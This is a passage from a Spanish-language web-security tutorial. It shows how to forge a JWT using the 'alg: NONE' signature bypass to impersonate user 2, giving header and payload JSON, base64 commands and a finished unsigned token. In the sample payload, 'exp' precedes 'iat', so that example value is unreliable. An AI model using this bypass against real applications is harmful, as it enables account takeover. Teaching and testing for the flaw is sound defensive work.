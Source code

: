 ### Y la **VERIFY SIGNATURE** es un HASH con el formato HS256 del conjunto de HEADER + . + PAYLOAD + ( CLAVE SECRETA | SECRET ). 

### Por lo que para, por ejemplo, suplantar la identidad del usuario 2, entendemos que en el **PAYLOAD** deberíamos remplazar el **"id":1** por un **"id":2**, pero nuestro problema es que no conocemos el secret por si existiera una validación en el código de este mismo... Pero como mencionamos anteriormente, existen páginas que se encuentran mal desarrolladas y no validan dicha signature, por lo que en primer lugar lo que podríamos intentar realizar es burlar este haciendo uso de un tipo de cifrado NONE, por lo que deberiamos remplazar el **HEADER** por el siguiente JSON: 

```json
{
	"alg": "NONE",
	"typ": "JWT"
}
```

### Luego, convertirlo a base64, y el resultado de este sería nuestro primer fragmento de el JWT: 

```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64 
```

### Por ultimo, realizariamos el cambio necesario en el **PAYLOAD**, en este ejemplo al intentar remplazar la identidad del usuario 2 simplemente remplazariamos el id: 

```json
{
	"id": 2,
	"iat": 1685376579,
	"exp": 1685350179
}
```

### Y una vez más, lo convertimos a base64: 

```bash
echo -n '{"id":2,"iat":1685376579,"exp":1685350179}' | base64 
```

### El conjunto de ambas cadenas en base64 separadas un por un punto, junto a un punto al final dejando vació la **SIGNATURE**, en caso de que la aplicación este mal desarrollada, daría como resultado un JWT válido. 

```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64 # eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=
echo -n '{"id":2,"iat":1685376579,"exp":1685350179}' | base64 # eyJpZCI6MiwiaWF0IjoxNjg1Mzc2NTc5LCJleHAiOjE2ODUzNTAxNzl9
# JWT: 
# {resultado_base64_header}.{resultado_base64_payload}.
# eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNjg1Mzc2NTc5LCJleHAiOjE2ODUzNTAxNzl9. 
```
